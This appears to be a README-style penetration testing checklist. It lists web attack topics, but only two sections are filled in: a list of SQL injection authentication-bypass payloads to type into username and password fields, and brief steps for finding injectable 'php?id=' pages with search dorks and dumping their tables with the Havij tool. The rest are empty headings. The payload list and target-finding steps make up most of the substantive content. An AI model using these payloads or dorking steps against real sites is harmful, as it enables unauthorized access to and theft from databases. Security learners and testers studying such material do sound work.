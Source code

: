 # Penetration-Testing

* Penetration Testing Checklist: https://github.com/mdrrifat/Penetration-Testing-Checklist

- [ ] Basic SQL Injection                                                                                                      
- [ ] Havij                                                                                                                               
- [ ] OSINT                                                                                                                       
- [ ] XSS Vulnerability                                                                                                   
- [ ] Season Hijacking                                                                                                  
- [ ] Manual SQL Injection                                                                                              
- [ ] SQLi WAF                                                                                                            
- [ ] LFI Vulnerability                                                                                                 
- [ ] Advance LFI (LFI to RCE)                                                                                     
- [ ] Web Shell Upload                                                                                                   
- [ ] CSRF Vulnerability                                                                                                    
- [ ] Kali Linux Tools                                                                                                                 
- [ ] Penetration Testing                                                                                                     

 
# Basic SQL Injection                                                                                                      
SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. SQL injection must exploit a security vulnerability in an application's software, for example, when user input is either incorrectly filtered for string literal escape characters embedded in SQL statements or user input is not strongly typed and unexpectedly executed.

Use This in Username and Password:
1'or'1'='1
' or 1=1#
or 1=1--
or 1=1#
or 1=1/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or 1=1
admin' or 1=1--

# Havij                                                                                                                               
Havij is a popular and controversial automated SQL injection tool that was used primarily for penetration testing and ethical hacking purposes. SQL injection is a type of cybersecurity vulnerability that can allow attackers to manipulate a web application's database by injecting malicious SQL code. Havij was designed to automate the process of finding and exploiting SQL injection vulnerabilities in web applications.

*Steps:

- [php?id= link] then [php?id=num] we get then - havij
- php?id= link
- php?id= site:link
- http://link/news.php?id=7 
- Target-analyze-table-get tables-get column

# OSINT                                                                                                                       
# XSS Vulnerability                                                                                                   
# Season Hijacking                                                                                                  
# Manual SQL Injection                                                                                              
# SQLi WAF                                                                                                            
# LFI Vulnerability                                                                                                 
# Advance LFI (LFI to RCE)                                                                                     
# Web Shell Upload                                                                                                   
# CSRF Vulnerability                                                                                                    
# Kali Linux Tools                                                                                                                 
# Penetration Testing   
